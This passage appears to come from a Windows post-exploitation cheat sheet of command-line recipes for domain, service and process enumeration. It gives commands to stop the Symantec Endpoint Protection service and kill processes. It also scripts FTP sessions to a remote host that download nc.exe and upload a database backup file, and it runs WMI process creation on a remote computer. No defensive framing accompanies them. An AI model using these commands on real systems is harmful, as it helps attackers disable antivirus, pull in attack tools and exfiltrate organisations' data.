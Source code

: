 View domain groups
```
    net group /domain
    powershell (new-object system.directoryservices.directorysearcher("(&(objectcategory=user)(samaccountname=$($env:username)))")).FindOne().GetDirectoryEntry().memberof
```

View the list of started services (search for antivirus):
```
    net start
    sc query
```

Stop a service: 
```
    net stop "Symantec Endpoint Protection"
```

View the list of started processes and the owner:
``` 
    tasklist /v
```

Kill a process by its name: 
``` 
    taskkill /F /IM "cmd.exe"
```

Abort a shutdown/restart countdown: 
``` 
    shutdown /a
```

Download an executable from a remote FTP server:
```
    echo open 10.1.2.3> C:\script.txt
    echo user myftpuser>> C:\script.txt
    echo pass myftppass>> C:\script.txt
    echo get nc.exe>> C:\script.txt
    echo bye>> C:\script.txt
    ftp -s:script.txt
```

Upload a file to a remote FTP server:
```
    echo open 10.1.2.3> C:\script.txt
    echo user myftpuser>> C:\script.txt
    echo pass myftppass>> C:\script.txt
    echo put E:\backups\database.dbf>> C:\script.txt
    echo bye>> C:\script.txt
    ftp -s:script.txt
```

WMI call remote system
```
    wmic /node:remote_computer process call create "netstat.exe -ano > C:\output.txt"
```

WMI get startup items
```
    wmic startup get Caption, Command, User
```
